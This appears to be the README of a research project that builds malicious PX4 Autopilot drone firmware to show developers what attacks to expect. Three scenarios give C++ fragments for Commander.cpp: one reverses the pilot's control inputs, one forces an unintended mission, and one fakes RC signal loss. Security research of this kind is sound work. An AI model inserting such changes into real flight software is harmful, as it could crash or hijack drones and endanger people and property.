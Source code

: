 # PX4-Malicious
The **PX4-Malicious** project aims to provide a direction for which attacks to prepare for drone service developers by designing attack scenarios based on cases and implementing malicious drone software corresponding to attack scenarios using PX4 Autopilot. 🚁👿  
- [Selected as an Excellent Paper in 2020 KSC Information Security and High-Reliability Computing](http://www.kiise.or.kr/academy/board/academyNewsView.fa?MENU_ID=080100&sch_add_bd=%ED%95%99%ED%9A%8C%EC%86%8C%EC%8B%9D&NUM=2127)

## PX4 Autopilot
**PX4 Autopilot** is an open-source autopilot system for Unmanned Aerial Vehicle. **PX4 Autopilot** guarantees scalability so that the PX4 ecosystem can be maintained by providing a standard for drone hardware and software.  
- [PX4 Github](https://github.com/PX4/PX4-Autopilot)
- [PX4 Autopilot](https://docs.px4.io/master/en/)
- [QGroundControl](http://qgroundcontrol.com/)
- [MAVLink Protocol](https://mavlink.io/en/)

## 3-Factor of Drone Attack
| Content | Description |
| --- | --- |
| Drone Aircraft | Internal factors |
| Ground Control System | External factors |
| Drone Flight Stack | Dynamic factors in the flight process |

## Let's Hack a Drone 👿
### Scenario #1: Generating Control Error
- **Demo**: [YouTube Link](https://youtu.be/SOWdo8h1ZJA)
- **Attack Type**: Drone Aircraft, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
```
# Step 1: Check whether new data has been published
if(last_setpoint_x != (int)(_manual_control_setpoint.x * 10000) && last_setpoint_y != (int)(_manual_control_setpoint.y *10000))
```
```
# Step 2: Declare a new setpoint & Copy using orb_copy
struct manual_control_setpoint_s temp_setpoint;
orb_copy(ORB_ID(manual_control_setpoint), 1, &temp_setpoint);
```
```
# Step 3: Update the new setpoint in the opposite direction of x and y
temp_setpoint = _manual_control_setpoint;
temp_setpoint.x *= (-1);
temp_setpoint.y *= (-1);
```
```
# Step 4: Publish updated setpoint values
orb_advert_t changed_setpoint = orb_advertise(ORB_ID(manual_control_setpoint), &temp_setpoint);
orb_publish(ORB_ID(manual_control_setpoint), changed_setpoint, &temp_setpoint);
```
```
# Step 5: Save current setpoint value to last_setpoint
last_setpoint_x = (int)(temp_setpoint.x * 10000);
last_setpoint_y = (int)(temp_setpoint.y * 10000);
```

### Scenario #2: Unintended Mission Conduct
- **Demo**: [YouTube Link](https://youtu.be/edIfXTZRIV8)
- **Attack Type**: Drone Aircraft, Ground Control Station, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
```
# Step 1: Mission structure declaration
mission_s mission;
```
```
# Step 2: Update the result of dataman(Mission, Setpoint) to the newly declared Mission
if (dm_read(DM_KEY_MISSION_STATE, 0, &mission, sizeof(mission_s)) == sizeof(mission_s)) {
    if (mission.dataman_id == DM_KEY_WAYPOINTS_OFFBOARD_0 || mission.dataman_id == DM_KEY_WAYPOINTS_OFFBOARD_1) {
        if (mission.count > 0) {
            PX4_INFO("Mission #%d loaded, %u WPs, curr: %d", mission.dataman_id, mission.count, mission.current_seq);
        }
    }
}
```
```
# Step 3: Publish the updated Mission
_mission_pub.publish(mission);
```
```
# Step 4: Check if Mission is properly published
const bool mission_result_ok = (mission_result.timestamp > _boot_timestamp) 
    && (mission_result.instance_count > 0);
```
```
# Step 5: Check if the Mission is in a state that can be performed
if (status_flags.condition_home_position_valid &&
    (prev_mission_instance_count != mission_result.instance_count)) {

    if (!status_flags.condition_auto_mission_available) {
        // the mission is invalid
        tune_mission_fail(true);

    } else if (mission_result.warning) {
        // the mission has a warning
        tune_mission_fail(true);

    } else {
        // the mission is valid
        tune_mission_ok(true);
    }
}
```
```
# Step 6: Switched to Mission execution mode & Mission perform
main_state_transition(status, commander_state_s::MAIN_STATE_AUTO_MISSION, status_flags, &_internal_state);
```
```
# Step 7: When the mission is over, set flag to false
if(_mission_result_sub.get().finished){
  MESL02_Mission_flag = false;
}
```

### Scenario #3: RC Connection Lost
- **Demo**: [YouTube Link](https://youtu.be/DLxIkqdxU0k)
- **Attack Type**: Ground Control Station, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
```
# Step 1: Sending 1000 loss signals
else if(MESL03_Loss_flag <= 1000)
```
```
# Step 2: Convert rc_signal_lost of status structure to true
status.rc_signal_lost = true;
```
```
# Step 3: Set the flag with the updated status using the set_health_flags() function
set_health_flags(subsystem_info_s::SUBSYSTEM_TYPE_RCRECEIVER, true, true, false, status);
_status_changed = true;
```
